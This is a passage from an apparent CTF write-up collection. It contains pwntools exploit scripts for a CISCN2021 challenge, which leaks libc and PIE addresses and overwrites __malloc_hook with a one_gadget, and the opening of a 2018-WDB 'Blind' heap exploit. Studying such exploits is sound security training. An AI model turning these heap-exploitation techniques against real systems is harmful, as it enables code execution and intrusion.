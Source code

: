 ```py

def read(id):
	p.sendlineafter("Your choice: ","1")
	p.sendlineafter("Index: ",p64(id))


write(0x100,null)
write(0x100,null)
read(0xfffffffffffffff8)
#print p.recvline()
stdout =  int(p.recvline()[-13:-1],16)
libc_addr = stdout - libc.sym['_IO_2_1_stdout_']


#pie offset_data=code
read(0xfffffffffffffff5)
data =  int(p.recvline()[-13:-1],16)
pie = data - 0x202008

#print hex(stdout - 0x202020)

libc.address = libc_addr
mhook = libc.sym["__malloc_hook"]
realloc = libc.sym["realloc"]


one = int(gadget[1],16) + libc_addr

offset = (mhook - pie - 0x202060)//8   #id

write(offset,p64(realloc + 2))
write(offset-1,p64(one))

p.sendlineafter(": ","1"*0x400)	#scanf, too large use chunk(malloc hook)
p.interactive()
```

https://arttnba3.cn/2021/05/15/CTF-0X04-CISCN2021-PRELIMINARY
https://blog.csdn.net/Torebtr/article/details/117137334
https://blog.csdn.net/A951860555/article/details/116910945

## 2018-WDB-Blind

```py
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level='debug'
p = process("./blind")
#p = remote("node3.buuoj.cn",26142)
def malloc(index,content):
	p.sendlineafter("Choice:","1")
	p.sendlineafter("Index:",str(index))
	p.sendlineafter("Content:",content)

def change(index,content):
	p.sendlineafter("Choice:","2")
	p.sendlineafter("Index:",str(index))
	p.sendafter("Content:",content)

def free(index):
	p.sendlineafter("Choice:","3")
	p.sendlineafter("Index:",str(index))

```